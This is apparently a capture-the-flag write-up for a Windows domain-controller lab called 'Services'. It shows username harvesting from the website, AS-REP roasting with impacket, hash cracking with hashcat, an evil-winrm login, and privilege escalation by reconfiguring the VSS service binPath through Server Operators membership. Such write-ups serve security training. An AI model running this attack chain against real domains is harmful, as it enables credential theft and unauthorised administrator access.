# Services

# Enumeration

## Nmap

```php
sudo nmap -sS -sV -sC -T4 -n -Pn -p- 10.81.138.138 -oN 'nmap_full'
```



**as we see this is a Windows Machine running IIS Server and Kerberos / LDAP So we can be sure that this is a Domain Controller so lets first add the domain name and the DC name to our /etc/hosts file.**

```php
sudo echo '10.81.138.138 WIN-SERVICES.services.local services.local' >> /etc/hosts
```

## HTTP 80 IIS Server


**Now Let’s make some passive recon on this web page and see if we can extract something useful.**

**In the CONTACT Page I got a username lets note it maybe its useful**



**User: j.doe**

**I Found Another Something Looks Interesting**



**As we see we have 4 names and one of them called Joanne Doe which is the username we found earlier  j.doe Now get the other 3 Usernames.**

**j.rock**

**w.masters**

**j.larusso**

# Foot Hold

**Lets now put them in a wordlist and check if they are valid and ASREP-Roastable or not.**

```php
impacket-GetNPUsers services.local/ -dc-ip 10.81.138.138 -usersfile users.txt -format john -outputfile crackme.txt -no-pass -request
```



**As we see i was able to get the hash of the user j.rock, So From now i will try to crack it using Hashcat**

```php
hashcat -m 18200 crackme.txt /usr/share/wordlists/rockyou.txt
```

**We Cracked it Successfully and the Password is : Serviceworks1**



**Now Let’s Try to Login by Evil-Winrm**

```php
evil-winrm -i 10.81.138.138 -u j.rock -p 'Serviceworks1'
```

# Local Enumeration

**After logging in i checked my privileges and groups and i found that i am in Server operators groups which is fantastic !!!**



**Now Lets Check the Services and try to Configure the Bin Path of it so we can get a Higher Privileges.**

**This Lists the Services Running as Local System**

```php
Get-ChildItem "HKLM:\SYSTEM\CurrentControlSet\Services" | ForEach-Object {
    $svc = Get-ItemProperty $_.PsPath
    if ($svc.ObjectName -eq "LocalSystem" -and $svc.Start -eq 3) {
        [PSCustomObject]@{
            ServiceName = $_.PSChildName;
            ImagePath   = $svc.ImagePath;
            StartName   = $svc.ObjectName;
            StartType   = $svc.Start
        }
    }
}
```

**This Check If the Server Operators Group Can Modify the service or not.**

**Note: You must avoid the critical services to not break the system** 

```php
sc.exe sdshow VSS
```



**Notice the SO Refers to Server Operators** 

**Now Lets escalate Our Privileges and get the flags**

# Privilege Escalation

```php
sc.exe config VSS binPath= "cmd.exe /c net localgroup Administrators j.rock /add"
```


**As We see we are now in administrators groups so let’s relog to get the privileges to our lsass token.**



**Lets now get the User / Root Flags**

# Exfiltration

### **User flag**



### Root flag



Even when i am in Administrators group i can read the file so lets use or SeBackupPrivilges to make a copy of the flag and ignore the ACLs.


**Done, Let’s Read The Flag**


